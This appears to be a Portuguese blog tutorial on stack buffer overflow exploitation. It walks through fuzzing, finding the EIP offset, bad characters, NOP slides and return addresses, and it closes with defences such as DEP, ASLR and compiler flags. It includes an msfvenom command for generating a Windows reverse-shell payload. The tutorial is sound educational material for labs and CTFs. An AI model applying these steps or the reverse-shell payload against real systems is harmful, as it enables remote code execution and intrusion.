

22/11/2024
Esse artigo não endossa qualquer tipo de ação contra as leis, essa informação está aqui apenas para compartilhar conhecimento ( ͡° ͜ʖ ͡°). Esta falha é muito perigosa, já que pode desde derrubar o serviço à conseguir uma shell na máquina alvo, e necessita de uma base de conhecimento sólida devido ela atuar em um nível de código de maquina. Para entender essa falha é recomendado no mínimo entender Assembly Básico, e conhecer e saber usar debuggers.
Primeiramente, para entender essa falha é necessário ter um entendimento do funcionamento básico da Stack. Segue uma representação do funcionamento normal de um programa que aceita entrada de dados e os armazena:
E em casos onde existe uma entrada de dados vulneráveis ou sem o devido tratamento da informação, é possível enviar um número maior que o Buffer suporta, sobrescrevendo as demais informações.

Dessa forma criando a oportunidade de influenciar na ordem da execução do software.
Antes de tudo, é recomendado que você crie um ambiente de testes para fazer essa pesquisa. Primeiro enumere o serviço e o ambiente onde ele roda e tente replicar de forma fiel para que você tenha maiores chances de achar a vulnerabilidade que te interessa.
Para descobrir uma vulnerabilidade no programa é primeiro fundamental encontrar uma entrada de informações, pode ser de qualquer espécie, caso essa entrada use métodos vulneráveis (como strcpy, gets, scanf).
Para testar sem que tenha acesso ao código fonte, pode-se primeiro tentar inserir de forma progressiva uma quantidade de dados, caso o programa pare de funcionar após certa quantidade e no debugger aparece o endereço EIP sobrescrito é porque ele é vulnerável.
Esse processo de mandar várias entradas até chegar a uma que quebre o serviço é chamado de fuzzing. Segue um script que automatiza esse processo:
# Modo de uso: fuzzing.py (número multiplo de 10 limite)
import sys
lista = []
i = 0
limite = sys.argv[1]
while len(lista) < int(limite):
i += 1
lista.append("A" * (i * 10))
for buffer in lista:
print(f"buffer de {len(buffer)} bytes: {buffer}")
Uma vez que já encontrou uma vulnerabilidade, podemos descobrir qual é o número exato de bytes para chegar no EIP e controlar o andamento do programa.
Para isso, é fundamental ter o seu debugger de preferência em mãos e já com o seu software ligado. E ainda, para esse processo é possível faze-lo de 2 formas: manual e automatizado.
Para chegarmos ao valor certo para controlar o EIP faremos um tipo de "busca binária". Uma vez que achamos um valor que quebra o buffer, iremos dividir esse buffer pela metade e associar a outro valor, logo após verificaremos no debugger qual valor sobrescreveu o EIP e faremos esse processo até chegar no valor certo. Segue um exemplo didático:
Buffer que quebrou a aplicação (20 digitos):AAAAAAAAAAAAAAAAAAAA
EIP: 41414141 (AAAA)
Buffer 1: AAAAAAAAAABBBBBBBBBB (10 A e 10 B)
EIP: 42424242 (BBBB)
Buffer 2: AAAAAAAAAAAAAAABBBBB (15 A e 5 B)
EIP: 41424242 (BBBA)
Logo EIP está a 14 bytes
Usando as ferramentas pattern_create e pattern_offset do framework Metasploit, podemos chegar ao valor rapidamente. Segue exemplos de uso:
msf-pattern_create -l (tamanho)
msf-pattern_offset -l (tamanho) -q (valor encontrado no EIP)
Dessa forma essas ferramentas já te entregará o valor certo para fazer o controle do EIP.
Até aqui já existe uma vulnerabilidade no serviço, porém sem um bom endereço que retorne para a Stack essa vulnerabilidade será apenas de DOS e não permitirá um Remote Code Execution (que é o ideal para o pesquisador).
Para que achar um bom endereço de retorno à Stack é necessário um que não mude de endereço ao reiniciar o programa e que tenha a instrução JMP ESP, para isso é valido olhar os arquivos dll ligados ao software dando preferência aos que não sejam nativos do sistemas. Caso não haja um endereço de retorno que seja satisfatório você pode considerar formas de fazer o bypass dos mecanismos de proteção em questão, porém essas técnicas são complexas.
E ainda que você ache, é fundamental lembrar-se de passar o código correspondente ao endereço da memória de forma contrária para que na Stack ele esteja correto.
Caso você tenha um bom endereço de redirecionamento em mãos, entra o momento de pensar seu shellcode, que é o código que te garantirá a execução remota. E para ter certeza que ele vá funcionar é necessário saber quais são os caracteres que a aplicação não aceita.
Existem algumas listas pré-prontas na internet de fácil acesso, e esse processo é feito enviando essa lista após o seu buffer já feito e verificar se a ordem dos algarismos está correta na Stack, caso a ordem seja quebrada remova o caractere que não apareceu e repita o processo até conseguir manter a ordem. E tenha esses bad chars anotados pois eles são necessários no próximo passo
Antes de gerar o shellcode vale a pena testar se a Stack é capaz de armazenar o tamanho do shellcode, que para sistemas Windows costuma ser por volta de 350 bytes, e ainda fazer uma série de instruções NOP pois mesmo o endereço ESP não é preciso e não queremos que pule para o meio do nosso código (técnica chamada NOP Slide).
Existem algumas formas de gerar um shellcode, nesse artigo cobrirei pelo msfvenom. Esse comando possui a seguinte sintaxe:
msfvenom -p payload -b "BadChars" LHOST=seuip LPORT=443 -f py
Payload Windows: windows/shell_reverse_tcp
Payload Linux: linux/x86/shell_bind_tcp
Caso queira evitar que o programa quebre após fechar a shell você pode incluir o argumento EXITFUNC threads, essa parte ainda tem muitos fatores que podem melhorar seu código então vale o estudo.
E após identificar uma entrada de dados, achar o offset do endereço EIP, achar um endereço de retorno desprotegido, criar seu shellcode e envia-lo para a Stack seu ataque de Buffer Overflow estará completo.
No momento de encontrar um bom endereço de retorno existe alguns mecanismos de proteção que podem impedir a execução de um shellcode. Dentre eles os mais importantes são:
Essa proteção atua bloqueando a execução de qualquer código que esteja em regiões da memória que deveriam conter apenas dados.
Mecanismo que atua aleatorizando os endereços de memória onde diferentes componentes do programa são executados, dessa forma impossibilitando achar um bom endereço de retorno que seja estático.
E apesar de esses mecanismos serem eficientes é completamente possível fazer um bypass deles. Porém para isso é necessário utilizar técnicas mais complexas como ROP Chains.
Ambas funções supracitadas vem por padrão ativadas nos sistemas Windows, porém há formas de também forçar elas mesmo em aplicativos sem essas funções por padrão, porém isso pode causar problemas de compatibilidade. Para fazer isso no Windows pode ir em Exibir configurações avançadas do sistema -> Avançado -> Desempenho/Configurações -> Prevenção de Execução de Dados -> Ativar a DEP para todos os programas e serviços, exceto os que eu selecionar, e para o ASLR Windows Defender -> Controle de aplicativos e do navegador -> Configurações do Exploit Protection e lá colocar a opção do ASLR com ligado por padrão, e mudar o DEP aqui também funciona.
No Linux existe algumas formas de se proteger contra esses ataques. Como exemplo você pode compilar diretamente na sua maquina os softwares e colocar argumentos como -fstack-protector ou -fstack-protector-all no gcc entre outras opções, isolar seu programas com containerização como Docker para isolaro software de qualquer superfície de ataque, manter somente os serviços que você usa ativos para diminuir os possíveis pontos de entrada e manter seu sistema o mais atualizado o possível.
Porém nada disso é garantia de segurança, é sempre fundamental usar o computador com consciência desses perigos.
Em CTFs nem sempre é necessário fazer todo o processo, parte das vezes é possivel mudar o endereço EIP diretamente pelo debugger.